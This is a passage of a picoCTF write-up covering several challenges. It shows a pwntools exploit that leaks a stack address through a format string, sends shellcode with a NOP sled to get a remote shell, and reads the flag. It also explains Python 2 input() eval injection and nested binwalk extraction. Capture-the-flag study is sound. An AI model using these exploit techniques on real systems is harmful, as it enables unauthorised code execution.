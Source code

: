 ```py
else:
    r = remote('mercury.picoctf.net', 49704)

r.sendline("%6$p")
addr_leak = int(r.recvlineS(), 16)
addr_stack = addr_leak - 0x158
print(f"leaked: {hex(addr_leak)} -> {hex(addr_stack)}")
print(len(shellcode))

r.sendline(
    shellcode +
    b'\x90' * (104 - len(shellcode) + 8 + 8) +
    p64(addr_stack)
)
r.interactive()
```

For some reason, offset `0x158` works only on the remote binary. When testing
locally my offset was `0x168`.

```
 $ python exploit.py
[+] Opening connection to mercury.picoctf.net on port 49704: Done
leaked: 0x7ffea2106cf8 -> 0x7ffea2106ba0
29
[*] Switching to interactive mode
$ ls
flag.txt
gauntlet
xinet_startup.sh
$ cat flag.txt
230fc5c335f1fe302abdc387d498fe40
```

## What's your input?
We are given a script that runs when we connect to the server.  It asks us our
favorite year and city to visit with an `input` function.  However, this is
Python 2! The `input` function doesn't just read a string (like `raw_input`),
it also evals it!  All we have to do is answer the question about the city like
this:

```
What's the best city to visit?
City? city
You said: Fitchburg
I agree!
picoCTF{v4lua4bl3_1npu7_7607377}
```
And we get the flag!

## Matryoshka Doll
```
 $ binwalk -e -M dolls.jpg
 $ cat _dolls.jpg.extracted/base_images/_2_c.jpg.extracted/base_images/_3_c.jpg.extracted/base_images/_4_c.jpg.extracted/flag.txt
picoCTF{e3f378fe6c1ea7f6bc5ac2c3d6801c1f}
```
